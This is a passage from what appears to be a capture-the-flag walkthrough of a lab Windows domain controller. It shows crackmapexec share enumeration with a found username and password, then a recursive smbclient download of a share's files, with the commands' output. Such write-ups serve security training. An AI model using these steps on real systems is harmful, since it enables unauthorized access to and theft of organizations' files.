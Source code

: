 

I can also access this share from my local box:



    root@kali# crackmapexec smb -u s.smith -p sT333ve2 --shares 10.10.10.182
    SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:CASCADE) (signing:True) (SMBv1:False)
    SMB         10.10.10.182    445    CASC-DC1         [+] CASCADE\s.smith:sT333ve2 
    SMB         10.10.10.182    445    CASC-DC1         [+] Enumerated shares 
    SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
    SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
    SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
    SMB         10.10.10.182    445    CASC-DC1         Audit$          READ            
    SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
    SMB         10.10.10.182    445    CASC-DC1         Data            READ            
    SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
    SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
    SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
    SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share



I'll copy all the files to my local VM:



    root@kali# smbclient --user s.smith //10.10.10.182/Audit$ sT333ve2
    Try "help" to get a list of possible commands.
    smb: \> mask ""
    smb: \> prompt OFF
    smb: \> recurse ON
    smb: \> lcd smb-audit-loot/
    smb: \> mget *
    getting file \CascAudit.exe of size 13312 as CascAudit.exe (191.2 KiloBytes/sec) (average 191.2 KiloBytes/sec)
    getting file \CascCrypto.dll of size 12288 as CascCrypto.dll (206.9 KiloBytes/sec) (average 198.4 KiloBytes/sec)
    getting file \DB\Audit.db of size 24576 as Audit.db (461.5 KiloBytes/sec) (average 275.3 KiloBytes/sec)
    getting file \RunAudit.bat of size 45 as RunAudit.bat (0.8 KiloBytes/sec) (average 213.2 KiloBytes/sec)
    getting file \System.Data.SQLite.dll of size 363520 as System.Data.SQLite.dll (3317.8 KiloBytes/sec) (average 1198.9 KiloBytes/sec)
    getting file \System.Data.SQLite.EF6.dll of size 186880 as System.Data.SQLite.EF6.dll (356.4 KiloBytes/sec) (average 690.9 KiloBytes/sec)
    getting file \x64\SQLite.Interop.dll of size 1639936 as SQLite.Interop.dll (4411.8 KiloBytes/sec) (average 1805.3 KiloBytes/sec)
    getting file \x86\SQLite.Interop.dll of size 1246720 as SQLite.Interop.dll (4629.3 KiloBytes/sec) (average 2308.8 KiloBytes/sec)



### Audit.db
